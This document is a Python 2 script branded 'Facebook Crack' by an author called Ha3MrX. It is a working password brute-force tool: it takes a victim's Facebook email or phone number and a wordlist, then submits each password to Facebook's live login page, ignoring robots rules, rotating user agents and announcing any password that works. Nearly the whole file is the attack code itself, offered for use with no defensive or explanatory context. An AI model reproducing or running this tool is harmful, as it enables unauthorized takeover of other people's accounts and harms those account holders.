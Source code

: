 #!/usr/bin/env python
# -*- coding: UTF-8 -*-

import sys
import mechanize
import cookielib
import random




email = str(raw_input("Enter the Facebook Username (or) Email (or) Phone Number : "))


passwordlist = str(raw_input("Enter the wordlist name and path : "))


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
	global br
	br = mechanize.Browser()
	cj = cookielib.LWPCookieJar()
	br.set_handle_robots(False)
	br.set_handle_redirect(True)
	br.set_cookiejar(cj)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
	welcome()
	search()
	print("Password does not exist in the wordlist")

	
	
def brute(password):
	sys.stdout.write("\r[*] Trying ..... {}\n".format(password))
	sys.stdout.flush()
	br.addheaders = [('User-agent', random.choice(useragents))]
	site = br.open(login)
	br.select_form(nr = 0)
	br.form['email'] = email
	br.form['pass'] = password
	sub = br.submit()
	log = sub.geturl()
	if log != login and (not 'login_attempt' in log):
			print("\n\n[+] Password Find = {}".format(password))
			raw_input("ANY KEY to Exit....")
			sys.exit(1)

			
def search():
	global password
	passwords = open(passwordlist,"r")
	for password in passwords:
		password = password.replace("\n","")
		brute(password)

		
#welcome 
def welcome():
	wel = """

        +=========================================+
        |..........   Facebook Crack   ...........|
        +-----------------------------------------+
        |            #Author: Ha3MrX              | 
        |	       Version 1.0                |
 	|   https://www.youtube.com/c/HA-MRX      |
        +=========================================+
        |..........  Facebook Cracker  ...........|
        +-----------------------------------------+\n\n
"""
	total = open(passwordlist,"r")
	total = total.readlines()
	print(wel)
	print " [*] Account to crack : {}".format(email)
	print " [*] Loaded :" , len(total), "passwords"
	print " [*] Cracking, please wait ...\n\n"

	
if __name__ == '__main__':
	main()


